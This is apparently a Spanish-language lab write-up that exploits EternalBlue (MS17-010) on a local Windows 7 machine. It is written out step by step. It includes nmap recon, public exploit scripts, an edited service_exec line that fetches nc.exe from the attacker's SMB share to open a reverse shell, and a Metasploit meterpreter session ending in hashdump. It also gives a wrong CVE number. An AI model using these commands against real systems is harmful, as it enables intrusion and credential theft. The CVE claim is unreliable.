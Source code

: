 ## Summary

Tags: #Windows #EternalBlue #SMB #RPC #Metasploit #RCE #Msfvenom #ReverShell 

- IP -> 192.168.68.110
- Ports -> TCP (135,139,445,49152,49153,49154,49155,49156,49157), UDP (idk)
- OS ->  Windows 7 ultimate 7601 Service Pack 1
- Services & Applications
    - 135 ->  RPC
    - 139 -> SMB
    - 445 -> SMB

## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups              # Para hacer un escaneo de la red 

	# I = i mayuscula; es la interface ens33
	# ignoredups = Ignora IPs duplicadas 
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p20,... ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script "vuln and safe" -p445 ❮Target IP❯ -oN smbVulnScan   # Para ver si este servicio es vulnerable al ethernalblue (ms17-010) en Windows 7.
```
Encontramos que es vulnerable al EthernalBlue **CVE-2017-1043** en donde podemos hacer **RCE (Ejecucion Remota de Comandos)**

* De la manera manual
* [EternalBlue](https://github.com/3ndG4me/AutoBlue-MS17-010)
```bash
❯ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git        # Nos clonamos un repositorio de Github
```

Entramos al dir **AutoBlue-MS17-010**
```bash
❯ pip install -r requirements.txt                                   # Instalamos los requerimientos para poder usar el exploit del EternalBlue 
```

```python
❯ python2.7 eternal_checker.py 192.168.68.110                      # Con el checker podemos ver que campos son vulnerables

	# Nos muestra que el Target is not patched
```
Una vez que sabemos que es vulnerable, entramos al dir **Shellcode** en donde haremos lo siguiente:

```bash
❯ ./shell_prep.sh                          # Ejecutamos el binario para crear un msfvenom y podamos tener una ReverShell

	# Colocaremos nuestra LHOST
	# Colocaremos nuestro puerto de escucha LPORT x64
	# Colocaremos nuestro puerto de escucha LPORT x86
	# Usaremos una 'Regular cmd Shell'
	# Usaremos 'Staged Payload'
	
```

Nos regresamos al dir anterior **AutoBlue-MS17-010** y ejecutamos lo siguiente:
```bash
❯ ./listener_prep.sh                # Nos ponemos en escucha 

	# Colocaremos nuestra LHOST
	# Colocaremos nuestro puerto de escucha LPORT x64
	# Colocaremos nuestro puerto de escucha LPORT x86
	# Usaremos una 'Regular cmd Shell'
	# Usaremos 'Staged Payload'
```

O podemos usar:
```bash
❯ rlwrap nc -nlvp 443               # Nos ponemos en esucha por el puerto que le colocamos en el shell_prep.sh
```

Y dolo queda ejecutar el exploit para tener la ReverShell
```python
❯ python2.7 eternalblue_exploit7.py 192.168.68.110 shellcode/sc_all.bin            # Ejecutamos el exploit
```
Ahora somos **NT Authority\\System** 


[MS17-010](https://github.com/worawit/MS17-010/blob/master/zzz_exploit.py) De otra pagina por si la anterior no funciona 
```bash
❯ git clone https://github.com/worawit/MS17-010       # Nos clonamos un repositorio de Github
```

Entramos al dir **MS17-010**
```python
❯ python2.7 checker.py 192.168.68.110                                  # Usamos el Checker y nos saldra los STATUS OBJECT NAME que podremos usar despues

	# Dentro del checker.py debemos de agregar en Username='guest', para que no nos salga ACCESS_DENIED 
```

Ahora modificamos el archivo zzz_exploit.py
```python
❯ python2.7 zzz_exploit.py 192.168.68.110 samr                         # Usaremos un STATUS OBJECT NAME para hacer la explotacion

	# Dentro del zzz_exploit.py debemos de hacer los siguientes cambios:

	# Username='guest'
	# Donde esta la funcion 'def smb_pwn(conn, arch)', debemos de comentar lo siguiente:
		# print('Creating file')
		# tid2 
		# fid2 
		# smbConn.close
		# smbConn.disconnect
	# Tambien debemos de descomentar y colocar lo siguiente:
		# service_exec(conn, r'cmd /c \\192.168.68.109\smbFolder\nc.exe -e cmd 192.168.68.109 443') para obtener la ReverShell, IP y puerto de la maquina de atacante
```

Buscamos el Netcat en nuestra maquina de atacante
```bash
❯ locate nc.exe                              # Buscar el Netcat para Windows
```

Antes de ejecutar el binario, nos creamos un acceso compartido en donde tendremos el Netcat para Windows '**nc.exe**'
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Y nos ponemos en escucha
```bash
❯ rlwrap nc -nlvp 443
```
Ahora somos **NT Authority\\System** 

## User


## Root

* Usando MetaSploit
```bash 
❯ msfconsole -q         # q = Quitar el banner de inicio

❯ search eternalblue    # Buscamos el sploit (Los 'auxiliary' son mas para chequeo que un ataque, por lo que debemos de seleccionar el que dice 'exploit')
❯ use exploit/windows/smb/ms17_010_eternalBlue  # Colocamos el numero del exploit que vamos a usar
❯ options               # Miramos las opciones del exploit y lo que debemos de configurar
❯ set RHOSTS 192.168.68.110  # Configuramos el IP remoto (maquina victima)
❯ set payload windows/64/meterpreter/reverse_tcp    # Colocamos la ruta del Payload a usar
❯ set LHOST ens33       # Configuramos el IP local eth0, ens33 (Si estamos en una VPN colocar el Tun0)
❯ run                   # Ejecutamos el exploit  

#Dentro de la maquina podemos hacer lo siguiente
❯ hashdump              # Nos muestra los hashes de todos los usuarios
❯ shell                 # Dentro del exploit con shell nos podemos conseguir una consola interactiva
```
Ahora somos **NT Authority\\System** 